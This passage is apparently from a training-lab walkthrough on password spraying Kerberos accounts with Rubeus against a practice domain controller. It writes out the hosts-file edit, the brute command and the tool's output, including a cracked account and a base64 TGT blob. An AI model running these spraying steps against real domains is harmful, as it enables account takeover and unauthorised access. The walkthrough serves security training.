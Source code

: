 Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo 10.10.197.112 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

![](https://i.imgur.com/WN4zVo5.png)

```
PS C:\Users\Administrator\Downloads> .\Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7c/dD/Uk29V0bW3A/MtKF2SNy/q1xcx6Uz30gn3Jv/kQ0Jqpm6apEdSVbzkicxr7pAZbarA2a/99
      I2EhuJaG3yvDW1cceUHVfNvjnVnY00j68bnQZrPfmCqziEbNi1oeAKJ6Z6Seu7MFWbmIvwlHIuodIupP
      OuzE8Yhk4sguC69uzNHv5uj2uCceuNBuWTaz3h2ku2VioOcb60uR7NRRhSjImVHfXf/SFIEOdpqHwaDI
      hIvAHJmNeqDZnk88gwzoN2N0OEnOFHtMs276x4ObQ62l/IZuEGZK8pPAEeatnjd+EbKigq4Qp+xk1zjt
      PpNIJU04RtHHDEjouYgkzfHUOO9FCIk6MqQCMhWTdfiCpUnGe6mhhgrRxx465KRK/0FlrtC23PZOLNPC
      bflq0ja7JdFGXlcgsphfNVPFkvTt8aoyDXXEAR17fXufguqH22I2vIw5lIw2A+WFn4ym7kijctqTE6gk
      lZwN4C9FsLG67EmpZizCz5sEUa9GKzsFdEraWTd677sCxZ7gBW4JqCE5uYvyhhwsuu/9D1D9FBckOHjM
      IDvcSBSwtZe20vhe4SkgI3PhKI3bTl6GU1fPJzolYHZiZazw/Qu14+FGSo/UZJw1SDMidIqGgTIOCimy
      NcEIGmxuOyWPPEtUSigLX8naeEZ0rJV4PfN17wKQmT0Qf/zwps6F3vocfmmedwJEhsK1L7e9HkAsWngB
      ZIYvjCzqfBmdFjXzNnCS+BAOlukui5jhuDdJ18ib5rP3VVJDeJZdMefb2N8zswR34X5mv3buTmJsWNYa
      tb96Y3s9vdfxKlGfqz1Jnap07Zyat6FB2uogTZAryBO1dBh19tcM5et4wG9YrnrObjjPgVCr+AKHRH4v
      pYXJnzeMmsYL8V1sWczuWXnW4BHTxRQe7Z2yL3MjqpAkT1ReApDaCpDyIqxBnFOVtWln7EmXjK3adh/X
      o31zJizDirVEONH9EI3j/2xobpup8TGE1juGNJ020LHpYK/1EtCc6IFfEqQqw9nC5cOUauRjsMd9yLED
      KdLjhHtL2b2/llHlrr2j1IsvdkS8AGWwC2KZXfPXHKf768r0eLYjQfN76s7QAmijwxErHwHedkHyiyJn
      lT4+iBl2EM/pZ0BSXIirzt80nYE3UlWsWlrF/iMEkbaGdRatA8QZMLAdcFtWgRpB7srXw/LamNZVWC+s
      GfinpTGIFbmhABCHTbkCHUN48KeC7ShsCeD5FN1kHAFvjC6iyiCsW3r6DA6t/+1OTbE13lU43Z2BTuFZ
      dl8Z/cJXthaK8p9hrm6xA6J9q/79G8f60kWuHIqCd8TAAKFGjgj1JWpY5JLf/E3AbaOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIHPkoLMvwz6hai0xIyJOPErmyVsdHxhiLtxX
      TVcTw5qeoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIwMTEyNDE4MzAyMFqmERgPMjAyMDExMjUwNDMwMjBapxEYDzIwMjAxMjAxMTgzMDIwWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs



[+] Done
```
